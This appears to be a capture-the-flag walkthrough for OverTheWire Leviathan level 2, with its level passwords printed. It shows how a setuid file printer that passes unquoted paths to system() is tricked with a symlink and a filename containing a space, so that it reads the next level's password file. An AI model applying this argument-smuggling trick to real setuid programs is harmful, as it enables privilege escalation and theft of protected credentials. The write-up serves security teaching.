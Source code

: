 # Level 2

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Leviathan

## Provided Materials

- username: `leviathan2`
- password: `mEh5PNl10e`

## Solution

Let's see what do we have in directory:

```sh
leviathan2@gibson:~$ ls -al
total 36
drwxr-xr-x  2 root       root        4096 Oct  5  2023 .
drwxr-xr-x 83 root       root        4096 Oct  5  2023 ..
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 15060 Oct  5  2023 printfile
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
```

Let's look at `printfile`:

```sh
leviathan2@gibson:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
leviathan2@gibson:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Let's analyze it with `ltrace`:

```sh
leviathan2@gibson:~$ ltrace ./printfile .profile
__libc_start_main(0x80491e6, 2, 0xffffd624, 0 <unfinished ...>
access(".profile", 4)                           = 0
snprintf("/bin/cat .profile", 511, "/bin/cat %s", ".profile") = 17
geteuid()                                       = 12002
geteuid()                                       = 12002
setreuid(12002, 12002)                          = 0
system("/bin/cat .profile"# ~/.profile: executed by the command interpreter for login shells.
...
```

It firstly checks if we can access file and only then set `setreuid(12002, 12002)`, so probably we will need a [symlink](https://www.freecodecamp.org/news/symlink-tutorial-in-linux-how-to-create-and-remove-a-symbolic-link/).

Let's make it:

```sh
leviathan2@gibson:~$ mktemp -d
/tmp/tmp.erLalGKp7R
leviathan2@gibson:~$ chmod 777 /tmp/tmp.erLalGKp7R
leviathan2@gibson:~$ cd /tmp/tmp.erLalGKp7R
leviathan2@gibson:/tmp/tmp.erLalGKp7R$ ls
leviathan2@gibson:/tmp/tmp.erLalGKp7R$ ln -s /etc/leviathan_pass/leviathan3 file
leviathan2@gibson:/tmp/tmp.erLalGKp7R$ ls -al
total 16160
drwxrwxrwx    2 leviathan2 leviathan2     4096 Apr 20 14:34 .
drwxrwx-wt 2898 root       root       16535552 Apr 20 14:35 ..
lrwxrwxrwx    1 leviathan2 leviathan2       30 Apr 20 14:34 file -> /etc/leviathan_pass/leviathan3
```

But we need to find a way, so that `printfile` will allow us to see this `file`... Let's try to create filename with space:

```sh
leviathan2@gibson:~$ cd -
/tmp/tmp.erLalGKp7R
leviathan2@gibson:/tmp/tmp.erLalGKp7R$ touch "file with_space"
leviathan2@gibson:/tmp/tmp.erLalGKp7R$ cd -
/home/leviathan2
leviathan2@gibson:~$ ./printfile /tmp/tmp.erLalGKp7R/file\ with_space 
Q0G8j4sakn
/bin/cat: with_space: No such file or directory
```

And indeed, it incorrectly handles files with spaces!

## Password

`leviathan3`:`Q0G8j4sakn`

*Created by [bu19akov](https://github.com/bu19akov)*